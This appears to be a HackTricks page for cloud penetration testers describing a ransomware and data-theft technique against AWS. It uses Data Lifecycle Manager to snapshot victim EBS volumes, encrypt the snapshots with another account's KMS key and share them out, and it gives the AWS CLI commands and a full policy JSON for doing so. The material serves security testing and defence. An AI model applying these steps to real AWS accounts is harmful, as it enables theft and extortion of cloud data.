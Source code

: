 # AWS - DLM Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

A ransomware attack can be executed by encrypting as many EBS volumes as possible and then erasing the current EC2 instances, EBS volumes, and snapshots. To automate this malicious activity, one can employ Amazon DLM, encrypting the snapshots with a KMS key from another AWS account and transferring the encrypted snapshots to a different account. Alternatively, they might transfer snapshots without encryption to an account they manage and then encrypt them there. Although it's not straightforward to encrypt existing EBS volumes or snapshots directly, it's possible to do so by creating a new volume or snapshot.

Firstly, one will use a command to gather information on volumes, such as instance ID, volume ID, encryption status, attachment status, and volume type.

`aws ec2 describe-volumes`

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.

```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```

A template for the policy document can be seen here:

```bash
{
  "PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
  "ResourceTypes": [
    "VOLUME"
  ],
  "TargetTags": [
    {
      "Key": "ExampleKey",
      "Value": "ExampleValue"
    }
  ],
  "Schedules": [
    {
      "Name": "DailySnapshots",
      "CopyTags": true,
      "TagsToAdd": [
        {
          "Key": "SnapshotCreator",
          "Value": "DLM"
        }
      ],
      "VariableTags": [
        {
          "Key": "CostCenter",
          "Value": "Finance"
        }
      ],
      "CreateRule": {
        "Interval": 24,
        "IntervalUnit": "HOURS",
        "Times": [
          "03:00"
        ]
      },
      "RetainRule": {
        "Count": 14
      },
      "FastRestoreRule": {
        "Count": 2,
        "Interval": 12,
        "IntervalUnit": "HOURS"
      },
      "CrossRegionCopyRules": [
        {
          "TargetRegion": "us-west-2",
          "Encrypted": true,
          "CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
          "CopyTags": true,
          "RetainRule": {
            "Interval": 1,
            "IntervalUnit": "DAYS"
          }
        }
      ],
      "ShareRules": [
        {
          "TargetAccounts": [
            "123456789012"
          ],
          "UnshareInterval": 30,
          "UnshareIntervalUnit": "DAYS"
        }
      ]
    }
  ],
  "Parameters": {
    "ExcludeBootVolume": false
  }
}
```

{{#include ../../../banners/hacktricks-training.md}}






